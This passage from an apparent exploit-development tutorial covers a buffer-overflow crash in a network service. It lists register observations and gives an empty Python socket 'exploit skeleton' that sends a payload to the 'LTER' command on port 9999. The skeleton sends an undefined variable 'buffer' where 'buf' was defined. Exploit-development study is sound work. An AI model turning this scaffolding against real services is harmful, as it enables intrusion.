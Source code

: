 So a few things to notice about this crash:

- We have control over EIP so theorectically can control application execution flow
- A string of "A" characters are present in the EAX register
- ESP also points to *some* portion of the string
- EBP which denotes the bottom of the stack frame has also been overwritten
- Structured Exception Handler (SEH) chain is intact, so we have not overwritten far enough to overwrite it.

Let's now confirm these observations.

### Exploit PoC

We will create a basic exploit skeleton in python to use for testing. 

**TCP Exploit Skeleton**

```python
#!/usr/bin/env python

import socket
import os
import sys
import argparse
from struct import pack

parser = argparse.ArgumentParser(description='Exploit PoC')
parser.add_argument('-t', '--target', help='Specify the target host')
parser.add_argument('-p', '--port', default=9999, help='Specify the target port. Default is 9999', nargs='?', const=int)

args = parser.parse_args()

if len(sys.argv) < 2:
    print "[-] Too few arguments.  Run with -h"
    sys.exit()

host = args.target
port = args.port
    
buflen = ""
eip = ""
seh = ""
nseh = ""

shellcode = ""

buf = ""

try:
    print "[+] Sending payload\r\n"
    s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s1.connect((host,port))
    s1.recv(1024)
    s1.send("LTER ." + buffer)
    s1.close()
    print "[+] Payload delivered"

except:
    print "[!] Connection failed, check debugger!"

```
